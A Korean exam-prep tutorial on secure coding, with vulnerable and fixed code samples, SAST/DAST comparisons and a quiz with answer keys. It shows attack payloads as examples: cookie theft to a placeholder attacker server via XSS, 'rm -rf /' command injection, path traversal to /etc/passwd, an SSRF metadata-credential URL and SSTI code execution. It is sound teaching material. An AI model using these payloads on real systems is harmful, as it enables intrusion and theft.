


<Callout type="info">
  **이번 문서의 목표:** SQL 인젝션·크로스사이트 스크립팅(XSS) 같은 16편의 공격을 코드 수준에서 막는 시큐어코딩 규칙을 전/후 코드로 구분하고, 정적분석(SAST)·동적분석(DAST)의 차이와 SSRF·서버사이드 템플릿 인젝션(SSTI) 같은 최신 공격까지 설명할 수 있게 된다.
</Callout>

## 왜 시큐어코딩이 필요한가

16편에서 SQL 인젝션(SQL Injection)·XSS·CSRF 같은 웹 공격의 원리와 페이로드를 다뤘습니다. 그런데 공격 원리를 안다고 방어가 저절로 되지는 않습니다. 실제로 서비스가 뚫리는 지점은 언제나 **개발자가 짠 코드 한 줄**입니다. 사용자 입력을 검증 없이 SQL 문자열에 이어 붙이거나, 게시글 내용을 그대로 화면에 출력하는 코드가 있으면 아무리 방화벽과 침입탐지시스템을 잘 갖춰도 공격이 성공합니다.

이 문제를 코드 작성 단계에서 막자는 접근이 **시큐어코딩**(secure coding)입니다. 우리나라에서는 행정안전부와 한국인터넷진흥원(KISA)이 「소프트웨어 개발보안 가이드」를 발간하고, 「전자정부법 시행령」에 따라 공공기관 정보시스템 구축 사업에 소프트웨어 개발보안(시큐어코딩) 적용이 의무화되어 있습니다. 정보보안기사 필기에서는 이 가이드의 **7대 유형별 결함**을 코드로 구분하는 문제가 자주 나옵니다.

> **쉽게 말하면:** 시큐어코딩은 "공격을 나중에 막는 것"이 아니라 "공격이 통하지 않는 코드를 처음부터 짜는 것"입니다.

시큐어코딩이 소프트웨어 개발 생명주기(SDLC, Software Development Life Cycle) 안에서 어디에 위치하는지 보면 이렇습니다.



구현 단계에서 시큐어코딩을 적용하고, 테스트 단계에서 정적분석·동적분석으로 놓친 결함을 잡아내는 이중 구조입니다. 어느 한쪽만 하면 안 됩니다. 시큐어코딩만 하면 개발자가 놓친 실수를 못 잡고, 진단 도구만 돌리면 이미 다 짠 코드를 뒤늦게 고쳐야 해서 비용이 커집니다.

## 입력값 검증 — 화이트리스트가 원칙이다

### 왜 검증이 필요한가

웹 애플리케이션은 사용자 입력을 받아 동작합니다. 그런데 사용자가 보내는 값은 그 애플리케이션 입장에서는 **신뢰할 수 없는 데이터**입니다. 로그인 폼의 아이디 칸에 사람 이름 대신 SQL 구문을 넣거나, 게시판 제목 칸에 스크립트 태그를 넣는 식으로 입력값 자체가 공격 도구가 될 수 있습니다.

> **쉽게 말하면:** 입력값 검증은 "이 손님이 정문으로 들어오는 척하면서 몰래 흉기를 들고 있지는 않은지" 확인하는 절차입니다.

### 화이트리스트 대 블랙리스트

입력값을 걸러내는 방식은 두 가지입니다.

| 방식 | 정의 | 문제점 |
|------|------|--------|
| 블랙리스트(deny list) | 알려진 위험 패턴(`SELECT`, `<script>` 등)만 차단 | 대소문자 섞기, 인코딩 변형 등 우회가 쉽고 새 패턴을 놓침 |
| 화이트리스트(allow list) | 허용할 형식(숫자만, 영문 4–12자 등)만 통과시키고 나머지는 전부 거부 | 정상 입력의 범위를 정확히 정의해야 하는 설계 부담이 있음 |

시큐어코딩 가이드가 권장하는 원칙은 **화이트리스트**입니다. 블랙리스트는 "이것만 아니면 통과"라서 공격자가 조금만 변형해도 뚫리지만, 화이트리스트는 "이것만 통과"라서 정의되지 않은 입력은 자동으로 걸러집니다.

**예시.** 사용자 아이디 입력을 검증한다고 합시다.

```java
// 블랙리스트 방식 — 취약: 예상 못 한 패턴은 통과됨
if (userId.contains("'") || userId.contains("--")) {
    throw new IllegalArgumentException("허용되지 않는 문자");
}

// 화이트리스트 방식 — 안전: 정의된 형식만 통과
if (!userId.matches("^[a-zA-Z0-9_]{4,20}$")) {
    throw new IllegalArgumentException("아이디는 영문·숫자·밑줄 4~20자만 허용됩니다");
}
```

정규식 `^[a-zA-Z0-9_]{4,20}$`는 처음부터 끝까지 영문 대소문자·숫자·밑줄로만, 길이는 4자에서 20자 사이여야 통과한다는 뜻입니다. 작은따옴표나 하이픈 두 개 같은 SQL 구문 조각은 애초에 이 형식에 들어올 수 없으므로 자동으로 차단됩니다.

## 인젝션 방어 — 매개변수화된 쿼리

### SQL 인젝션: 전/후 비교

16편에서 본 SQL 인젝션은 사용자 입력을 SQL 문자열에 그대로 이어 붙이는 코드에서 발생합니다.

```java
// 취약한 코드 — 문자열 결합
String query = "SELECT * FROM users WHERE id = '" + userId + "' AND pw = '" + password + "'";
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery(query);
```

공격자가 아이디 칸에 `' OR '1'='1`을 넣으면 쿼리는 `WHERE id = '' OR '1'='1' AND pw = '...'`가 되어 조건이 항상 참이 되고, 비밀번호 없이 로그인이 뚫립니다.

```java
// 안전한 코드 — 매개변수화된 쿼리(Prepared Statement)
String query = "SELECT * FROM users WHERE id = ? AND pw = ?";
PreparedStatement pstmt = conn.prepareStatement(query);
pstmt.setString(1, userId);
pstmt.setString(2, password);
ResultSet rs = pstmt.executeQuery();
```

**핵심 원리:** `?`는 값이 들어갈 자리를 미리 예약해 두는 자리표시자(placeholder)입니다. 쿼리 구조(SQL 문법)가 먼저 데이터베이스에 전달되어 **컴파일**된 뒤에, `setString`으로 넣은 값은 순수한 데이터로만 취급됩니다. 공격자가 아무리 SQL 구문처럼 생긴 문자열을 넣어도 그 값이 쿼리의 문법 자체를 바꿀 방법이 없습니다. 이것이 매개변수화된 쿼리(parameterized query)가 SQL 인젝션을 원천 차단하는 이유입니다.

같은 원리가 언어마다 다른 이름으로 제공됩니다.

| 언어·프레임워크 | 매개변수화된 쿼리 방식 |
|------------------|------------------------|
| 자바(JDBC) | `PreparedStatement` |
| PHP(PDO) | `PDO::prepare()` + 바인드 파라미터 |
| Python | `cursor.execute("... WHERE id=%s", (user_id,))` |
| Node.js(mysql2) | `connection.execute("... WHERE id=?", [userId])` |

**자주 틀리는 점:** ORM(Object-Relational Mapping, 객체-관계 매핑)을 쓰면 무조건 안전하다고 착각하는 경우가 많습니다. ORM도 내부적으로 문자열을 그대로 결합하는 원시 쿼리 기능(raw query)을 제공하는데, 이 기능을 쓰면서 사용자 입력을 직접 넣으면 똑같이 SQL 인젝션에 노출됩니다. "ORM 사용"이 아니라 "값을 자리표시자로 바인딩했는가"가 안전의 기준입니다.

### XSS: 전/후 비교

크로스사이트 스크립팅(XSS)은 사용자가 입력한 값을 그대로 화면에 출력할 때 발생합니다.

```javascript
// 취약한 코드 — 사용자 입력을 그대로 DOM에 삽입
const comment = getUserInput();
document.getElementById('commentBox').innerHTML = comment;
```

댓글 칸에 `<script>document.location='https://공격자서버/steal?c='+document.cookie</script>`를 넣으면 그 스크립트가 다른 사용자의 브라우저에서 그대로 실행되어 로그인 쿠키(세션 정보)가 공격자 서버로 빠져나갑니다.

```javascript
// 안전한 코드 1 — textContent는 문자열을 태그로 해석하지 않음
document.getElementById('commentBox').textContent = comment;

// 안전한 코드 2 — 서버 측 출력 이스케이프(자바 예시, OWASP Java Encoder)
String safeComment = Encode.forHtml(comment);
```

**핵심 원리:** `innerHTML`은 넘겨받은 문자열을 HTML로 해석해서 태그를 실제 DOM 요소로 만듭니다. `textContent`는 문자열을 순수한 텍스트로만 취급해서 `<script>`라는 글자 그대로를 화면에 보여줄 뿐 실행하지 않습니다. 서버 측에서는 `<`를 `&lt;`, `>`를 `&gt;`, `"`를 `&quot;` 같은 HTML 엔터티(entity)로 바꾸는 **출력값 이스케이프**(output escaping)를 적용해, 브라우저가 이 문자들을 태그가 아니라 글자로만 렌더링하게 만듭니다.

**콘텐츠 보안 정책**(CSP, Content Security Policy)도 함께 배치하는 이중 방어입니다. 응답 헤더에 `Content-Security-Policy: script-src 'self'`를 설정하면, 설령 이스케이프를 하나 놓쳐 스크립트가 페이지에 끼어들어도 브라우저가 "허용된 출처가 아닌 스크립트"라고 판단해 실행 자체를 차단합니다. 시큐어코딩은 한 겹의 방어로 끝내지 않고 여러 겹을 쌓는 **심층 방어**(defense in depth) 원칙을 따릅니다.

### 명령어 인젝션과 경로 조작

같은 원리가 운영체제 명령어와 파일 경로에도 적용됩니다.

```python
# 취약한 코드 — 사용자 입력을 셸 명령어에 결합
import os
filename = request.args.get('file')
os.system(f"cat /var/log/app/{filename}")
```

`filename`에 `access.log; rm -rf /`를 넣으면 세미콜론 뒤의 명령까지 그대로 실행됩니다. `filename`에 `../../etc/passwd`를 넣으면 로그 폴더를 벗어나 시스템 파일을 읽는 **경로 조작**(path traversal) 공격이 됩니다.

```python
# 안전한 코드 — 화이트리스트 검증 + 안전한 API 사용
import os, re
filename = request.args.get('file')
if not re.fullmatch(r'[a-zA-Z0-9_\-]+\.log', filename):
    raise ValueError('허용되지 않는 파일명입니다')
safe_path = os.path.join('/var/log/app', filename)
with open(safe_path) as f:
    content = f.read()
```

셸을 거치는 `os.system` 대신 파일을 직접 여는 안전한 API를 쓰고, 파일명은 확장자까지 포함한 화이트리스트 정규식으로 제한해 상위 폴더로 이동하는 `..` 패턴 자체가 통과하지 못하게 막았습니다.

## KISA 시큐어코딩 7대 결함 유형

「소프트웨어 개발보안 가이드」는 보안 약점을 7개 유형으로 분류합니다. 시험에서는 구체적인 결함 사례를 주고 어느 유형인지 묻는 문제가 나옵니다.

| 유형 | 정의 | 대표 결함 사례 |
|------|------|----------------|
| 입력데이터 검증 및 표현 | 입력값 형식·범위 미검증, 인코딩 불일치 | SQL 인젝션, XSS, 경로 조작, 명령어 인젝션 |
| 보안기능 | 인증·접근통제·암호화 등 보안 기능 자체의 잘못된 구현 | 하드코딩된 비밀번호, 취약한 암호 알고리즘 사용, 부적절한 권한 검사 |
| 시간 및 상태 | 여러 요청·스레드가 동시에 자원에 접근할 때의 결함 | 경쟁조건(race condition), 검사시점-사용시점(TOCTOU) 취약점 |
| 에러처리 | 예외·오류 처리 미흡으로 인한 정보 노출 또는 서비스 중단 | 상세 오류 메시지에 스택 트레이스·쿼리문 노출 |
| 코드오류 | 프로그래밍 언어 문법·자원 관리 실수 | 널 포인터 역참조, 자원 반환 누락(메모리 누수) |
| 캡슐화 | 내부 구현·중요 정보를 외부에 불필요하게 노출 | 디버그 코드 잔존, 중요정보 평문 저장, 접근제어 없는 내부 API |
| API 오용 | 보안에 취약하다고 알려진 API를 잘못 사용 | 검증되지 않은 역직렬화, 취약한 난수 생성 함수 사용 |

**함정 문제 예시:** "로그인 실패 시 `Invalid username`과 `Invalid password`를 구분해서 보여준다"는 결함은 어느 유형일까요. 답은 **에러처리**입니다. 아이디가 맞는지 틀렸는지를 오류 메시지로 구분해 주면 공격자가 유효한 아이디 목록을 추려낼 수 있기 때문입니다. 올바른 처리는 두 경우 모두 "아이디 또는 비밀번호가 올바르지 않습니다"처럼 동일한 메시지를 반환하는 것입니다.

## 취약점 진단 절차 — 정적분석과 동적분석

시큐어코딩을 아무리 잘 지켜도 사람이 실수를 완전히 피할 수는 없습니다. 그래서 코드를 다 쓴 뒤에도 자동화 도구로 다시 검증합니다.



| 구분 | 정적분석(SAST, Static Application Security Testing) | 동적분석(DAST, Dynamic Application Security Testing) |
|------|--------------------------------------------------------|----------------------------------------------------------|
| 대상 | 소스코드 또는 바이너리 (실행하지 않음) | 실행 중인 애플리케이션 (블랙박스로 요청을 보내 응답을 관찰) |
| 시점 | 개발·빌드 단계 | 테스트·운영 단계 |
| 장점 | 결함이 있는 코드 줄까지 정확히 특정, 초기에 저비용 수정 | 실제 런타임 환경의 결함(설정 오류 포함)을 발견, 언어에 독립적 |
| 단점 | 오탐(false positive)이 많고 설정·배포 환경 결함은 못 봄 | 코드 위치를 알 수 없고, 테스트 범위 밖의 코드는 놓침 |
| 대표 도구 | SonarQube, Checkmarx, Fortify | OWASP ZAP, Burp Suite, Nikto |

두 방식을 결합한 것이 **대화형 분석**(IAST, Interactive Application Security Testing)입니다. 애플리케이션 내부에 에이전트를 심어 두고 실제로 동작시키면서 코드 흐름과 데이터 흐름을 동시에 추적해, SAST의 정밀한 코드 위치 정보와 DAST의 실제 동작 검증을 함께 얻습니다.

**자주 틀리는 점:** SAST가 "실행하며 검사"하고 DAST가 "코드를 읽어서 검사"한다고 반대로 외우는 경우가 많습니다. **S**는 Static(정적, 코드 자체), **D**는 Dynamic(동적, 실행 중 동작)이라는 철자 그대로 기억하면 헷갈리지 않습니다.

## 최신 웹 공격 동향 — SSRF와 서버사이드 템플릿 인젝션

### SSRF (서버 측 요청 위조)

**서버 측 요청 위조**(SSRF, Server-Side Request Forgery)는 공격자가 서버를 속여 **서버 자신이** 공격자가 지정한 주소로 요청을 보내게 만드는 공격입니다.

> **쉽게 말하면:** 원래는 서버가 심부름꾼입니다. 공격자가 심부름꾼에게 "이 주소로 가서 물건을 가져다 줘"라고 시켰는데, 그 주소가 사실은 외부에서는 못 들어가는 회사 내부 창고였던 상황입니다.

이미지 URL을 입력받아 서버가 대신 다운로드해서 썸네일을 만들어 주는 기능이 대표적인 취약 지점입니다.

```python
# 취약한 코드 — URL을 검증 없이 그대로 요청
image_url = request.form['url']
response = requests.get(image_url)
```

공격자가 `image_url`에 `http://169.254.169.254/latest/meta-data/iam/security-credentials/`(클라우드 인스턴스의 메타데이터 서버 주소)를 넣으면, 서버가 대신 그 주소로 요청을 보내 클라우드 접근 키 같은 내부 정보를 응답으로 받아 오고, 이를 공격자에게 그대로 돌려주면 자격 증명이 유출됩니다. 내부 관리자 페이지나 방화벽 뒤에 숨겨진 서비스에 접근하는 데도 같은 방식이 쓰입니다.

**대응:** 허용된 외부 도메인만 화이트리스트로 관리하고, 내부 사설 IP 대역(`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, 클라우드 메타데이터 주소)으로 향하는 요청은 애플리케이션 단에서 차단합니다.

### 서버사이드 템플릿 인젝션 (SSTI)

**서버사이드 템플릿 인젝션**(SSTI, Server-Side Template Injection)은 사용자 입력이 템플릿 엔진의 문법으로 해석되어, 서버에서 임의 코드가 실행되는 공격입니다. 웹 애플리케이션이 화면을 그릴 때 흔히 Jinja2(파이썬)나 프리마커(자바) 같은 템플릿 엔진을 씁니다.

```python
# 취약한 코드 — 사용자 입력을 템플릿 문자열로 직접 렌더링
from flask import render_template_string
name = request.args.get('name')
return render_template_string(f"안녕하세요, {name}님")
```

`name`에 `{{7*7}}`을 넣으면 응답에 숫자 49가 나타납니다. 사용자 입력이 단순 문자열이 아니라 **템플릿 문법으로 해석**되었다는 뜻입니다. 여기서 한 걸음 더 나가 `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}` 같은 페이로드를 넣으면 서버에서 운영체제 명령이 실행됩니다.

```python
# 안전한 코드 — 사용자 입력은 데이터로만, 템플릿 구조와 분리
from flask import render_template
name = request.args.get('name')
return render_template('greeting.html', name=name)
```

`render_template`은 미리 정의된 템플릿 파일(`greeting.html`)의 `{{ name }}` 자리에 값만 채워 넣을 뿐, 사용자 입력 자체를 템플릿 문법으로 다시 해석하지 않습니다. SQL 인젝션 방어에서 본 "쿼리 구조와 데이터를 분리한다"는 원리가 여기서도 그대로 적용됩니다. **입력값이 코드나 쿼리, 템플릿 같은 실행 가능한 구조 안에 섞여 들어가면 반드시 인젝션 계열 취약점이 생긴다**는 것이 이 편 전체를 관통하는 원칙입니다.

## 핵심 정리

- 시큐어코딩은 KISA 「소프트웨어 개발보안 가이드」에 따라 공공 정보시스템 구축 시 의무 적용되며, 정적분석·동적분석과 함께 이중으로 결함을 잡는다.
- 입력값 검증은 허용 목록을 정의하는 **화이트리스트**가 원칙이며, 알려진 위험만 막는 블랙리스트는 우회에 취약하다.
- SQL 인젝션은 매개변수화된 쿼리(자바의 `PreparedStatement` 등)로, XSS는 출력값 이스케이프와 콘텐츠 보안 정책(CSP)으로, 명령어 인젝션·경로 조작은 화이트리스트 검증과 안전한 API 사용으로 막는다.
- KISA 결함 7대 유형(입력데이터 검증 및 표현, 보안기능, 시간 및 상태, 에러처리, 코드오류, 캡슐화, API 오용) 중 어디에 속하는지 사례로 구분할 수 있어야 한다.
- 정적분석(SAST)은 코드 자체를 실행 없이 검사해 결함 위치를 특정하고, 동적분석(DAST)은 실행 중인 애플리케이션에 요청을 보내 응답으로 결함을 찾는다. 둘을 합친 것이 IAST다.
- SSRF는 서버가 대신 공격자가 지정한 주소로 요청하게 만드는 공격이고, SSTI는 사용자 입력이 템플릿 문법으로 해석되어 서버 코드 실행까지 이어지는 공격이다. 둘 다 "입력값과 실행 구조의 분리 실패"라는 공통 원인을 가진다.

## 마무리 복습

<Quiz
  questionNumber={1}
  question="입력값 검증에서 화이트리스트 방식이 블랙리스트 방식보다 안전한 이유로 가장 적절한 것은?"
  options={['처리 속도가 항상 더 빠르기 때문이다', '알려진 위험 패턴을 더 많이 등록할 수 있기 때문이다', '정의된 허용 형식 외에는 자동으로 차단되어 새로운 우회 패턴에도 대응되기 때문이다', '블랙리스트는 정규식을 사용할 수 없기 때문이다']}
  correctAnswer={3}
  explanation="화이트리스트는 허용할 형식만 정의하고 나머지는 전부 거부하므로, 공격자가 새로운 변형 패턴을 만들어도 정의된 형식에 없으면 자동으로 차단된다. 블랙리스트는 알려진 패턴만 막기 때문에 조금만 변형해도 우회당하기 쉽다."
  optionExplanations={['속도 차이는 안전성의 근거가 아니다.', '패턴을 많이 등록해도 새로운 변형까지 다 막을 수는 없다.', '허용 형식 외 전부 차단이라는 구조 자체가 우회를 막는 핵심 이유다.', '블랙리스트도 정규식을 사용할 수 있으며 이는 안전성과 무관하다.']}
/>

<Quiz
  questionNumber={2}
  question="다음 자바 코드에서 안전한 쿼리 실행 방식으로 바꾸었을 때 SQL 인젝션이 방지되는 핵심 원리는 무엇인가?"
  options={['쿼리 문자열의 길이를 제한하기 때문이다', '쿼리 구조가 먼저 컴파일되고 이후 값은 순수 데이터로만 취급되기 때문이다', '데이터베이스 서버의 방화벽이 자동으로 동작하기 때문이다', '자바 언어가 문자열 결합 자체를 금지하기 때문이다']}
  correctAnswer={2}
  explanation="PreparedStatement는 자리표시자로 쿼리 구조를 먼저 데이터베이스에 전달해 컴파일시키고, 이후 setString 등으로 넣는 값은 쿼리 문법을 바꿀 수 없는 순수 데이터로만 처리된다. 이 구조적 분리가 SQL 인젝션을 원천 차단한다."
  optionExplanations={['길이 제한은 별도의 검증이며 인젝션 방지의 핵심 원리가 아니다.', '쿼리 구조와 데이터의 분리가 매개변수화된 쿼리의 핵심 원리다.', '데이터베이스 방화벽은 별도 솔루션이며 코드 수준 방어와 무관하다.', '문자열 결합 자체는 언어 기능이며 자바가 이를 금지하지 않는다.']}
/>

<Quiz
  questionNumber={3}
  question="XSS 방어를 위해 innerHTML 대신 textContent를 사용하는 이유로 가장 적절한 것은?"
  options={['textContent가 처리 속도가 더 빠르기 때문이다', 'textContent는 문자열을 HTML 태그로 해석하지 않고 순수 텍스트로만 표시하기 때문이다', 'innerHTML은 모든 브라우저에서 지원되지 않기 때문이다', 'textContent를 쓰면 서버 측 이스케이프가 필요 없기 때문이다']}
  correctAnswer={2}
  explanation="innerHTML은 전달된 문자열을 HTML로 해석해 스크립트 태그를 실제로 실행 가능한 요소로 만들지만, textContent는 문자열을 태그로 해석하지 않고 글자 그대로 표시하므로 스크립트 실행 자체가 불가능해진다."
  optionExplanations={['속도는 XSS 방어와 관련된 이유가 아니다.', 'HTML 해석 여부의 차이가 XSS 방어의 핵심이다.', '두 속성 모두 널리 지원되는 표준 기능이다.', '심층 방어 관점에서 서버 측 이스케이프도 함께 적용하는 것이 원칙이다.']}
/>

<Quiz
  questionNumber={4}
  question="로그인 실패 시 아이디가 존재하지 않는 경우와 비밀번호가 틀린 경우를 서로 다른 메시지로 안내하는 결함은 KISA 시큐어코딩 7대 유형 중 무엇에 해당하는가?"
  options={['입력데이터 검증 및 표현', '시간 및 상태', '에러처리', '캡슐화']}
  correctAnswer={3}
  explanation="오류 메시지를 통해 아이디의 유효성 여부라는 민감한 정보가 노출되는 것이므로 에러처리 유형의 결함이다. 올바른 처리는 두 경우 모두 동일한 안내 문구를 반환하는 것이다."
  optionExplanations={['입력값 형식 검증과는 직접 관련이 없다.', '동시 접근이나 자원 경쟁과 관련된 결함이 아니다.', '오류 메시지를 통한 정보 노출은 에러처리 유형의 대표 사례다.', '캡슐화는 내부 구현·중요정보의 불필요한 노출을 다루며 이 사례와는 결이 다르다.']}
/>

<Quiz
  questionNumber={5}
  question="정적분석(SAST)과 동적분석(DAST)에 대한 설명으로 옳은 것은?"
  options={['SAST는 애플리케이션을 실행한 상태에서 요청과 응답을 관찰해 결함을 찾는다', 'DAST는 소스코드를 읽어 결함이 있는 줄 번호까지 특정한다', 'SAST는 소스코드 자체를 분석해 결함 위치를 특정하고, DAST는 실행 중인 애플리케이션에 요청을 보내 응답으로 결함을 확인한다', 'IAST는 SAST와 DAST 중 하나를 완전히 대체하는 상위 개념이다']}
  correctAnswer={3}
  explanation="SAST는 Static이라는 이름 그대로 실행하지 않고 소스코드나 바이너리를 분석해 결함이 있는 코드 위치까지 특정하며, DAST는 Dynamic이라는 이름 그대로 실제로 애플리케이션을 실행시켜 요청을 보내고 응답을 관찰해 결함을 발견한다."
  optionExplanations={['SAST는 실행 없이 코드 자체를 분석하는 방식이다.', 'DAST는 실행 중인 애플리케이션의 응답을 관찰하는 방식이라 코드 줄 번호를 알 수 없다.', 'SAST와 DAST의 정의를 정확히 구분한 설명이다.', 'IAST는 두 방식을 결합해 보완하는 접근이지 어느 한쪽을 완전히 대체하지 않는다.']}
/>

<Quiz
  questionNumber={6}
  question="다음 상황에 해당하는 최신 웹 공격 유형으로 가장 적절한 것은? 이미지 URL을 입력받아 서버가 대신 다운로드하는 기능에, 공격자가 클라우드 인스턴스의 내부 메타데이터 주소를 입력해 서버가 그 주소로 요청을 보내게 만들었다."
  options={['서버사이드 템플릿 인젝션(SSTI)', '서버 측 요청 위조(SSRF)', '크로스사이트 스크립팅(XSS)', '경로 조작(path traversal)']}
  correctAnswer={2}
  explanation="서버가 공격자가 지정한 주소로 대신 요청을 보내도록 속이는 공격이므로 서버 측 요청 위조(SSRF)에 해당한다. 클라우드 메타데이터 서버처럼 외부에서는 접근할 수 없는 내부 자원에 접근하는 전형적인 SSRF 시나리오다."
  optionExplanations={['템플릿 문법 해석과는 관련이 없는 상황이다.', '서버가 대신 요청을 보내게 만든다는 조건이 SSRF의 정의와 정확히 일치한다.', '브라우저에서 스크립트가 실행되는 상황이 아니다.', '파일 경로 접근이 아니라 네트워크 요청 대상 조작 상황이다.']}
/>

<Quiz
  questionNumber={7}
  question="사용자 입력값 name에 {{7*7}}을 넣었을 때 응답 화면에 49가 그대로 출력되었다면, 이는 어떤 취약점의 증거인가?"
  options={['SQL 인젝션', '서버사이드 템플릿 인젝션(SSTI)', 'DNS 캐시 포이즈닝', 'CSRF']}
  correctAnswer={2}
  explanation="입력값이 단순 문자열이 아니라 템플릿 엔진의 연산 문법으로 해석되어 계산 결과가 그대로 출력되었으므로, 이는 서버사이드 템플릿 인젝션의 전형적인 탐지 신호다."
  optionExplanations={['SQL 문법과는 관련이 없는 결과다.', '템플릿 문법이 연산으로 해석되었다는 것이 SSTI의 핵심 증거다.', 'DNS 응답 조작과는 무관한 상황이다.', 'CSRF는 인증된 세션을 이용한 요청 위조이며 이 상황과 다르다.']}
/>

## 참고 자료

- [OWASP - OWASP Top 10:2021](https://owasp.org/Top10/en/)
- [itwiki - 정보보안기사 필기 출제기준](https://itwiki.kr/w/정보보안기사_필기_출제기준)
- [공공데이터포털 - 한국방송통신전파진흥원_국가기술자격검정 정보보안 종목 출제기준](https://www.data.go.kr/data/15140079/fileData.do)
